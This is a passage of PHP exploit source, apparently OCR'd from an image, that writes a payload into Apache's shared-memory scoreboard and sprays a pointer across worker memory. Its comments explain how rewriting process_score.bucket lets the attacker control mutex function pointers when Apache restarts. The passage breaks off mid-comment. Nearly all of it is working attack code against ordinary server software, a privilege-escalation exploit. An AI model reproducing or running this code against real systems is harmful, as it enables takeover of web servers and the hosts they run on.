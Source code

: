 	# Write the payload

	o('Placing payload at address 0x' . dechex($payload_start));

	$p = $payload_start - $address;
	for(
		$i = 0;
		$i &lt; strlen($payload);
		$i++
	)
	{
		$this-&gt;abc[$p+$i] = $payload[$i];
	}

	# Fill the spray area with a pointer to properties

	$properties_address = $payload_start + strlen($bucket) + strlen($meth);
	o('Spraying pointer');
	o('  Address: 0x' . dechex($properties_address));
	o('  From: 0x' . dechex($spray_min));
	o('  To: 0x' . dechex($spray_max));
	o('  Size: 0x' . dechex($spray_size));
	o('  Covered: 0x' . dechex($spray_size * count($workers_pids)));
	o('  Apache: 0x' . dechex(
		$addresses['apache'][1] -
		$addresses['apache'][0]
	));

	$s_properties_address = ptr2str($properties_address);

	for(
		$i = $spray_min;
		$i &lt; $spray_max;
		$i++
	)
	{
		$this-&gt;abc[$i - $address] = $s_properties_address[$i % 8];
	}
	o('');

	# Find workers PID in the SHM: it indicates the beginning of their
	# process_score structure. We can then change process_score.bucket to
	# the index we computed. When apache reboots, it will use
	# all_buckets[ap_scoreboard_image-&gt;parent[i]-&gt;bucket]-&gt;mutex
	# which means we control the whole apr_proc_mutex_t structure.
	# This structure contains pointers to multiple functions, especially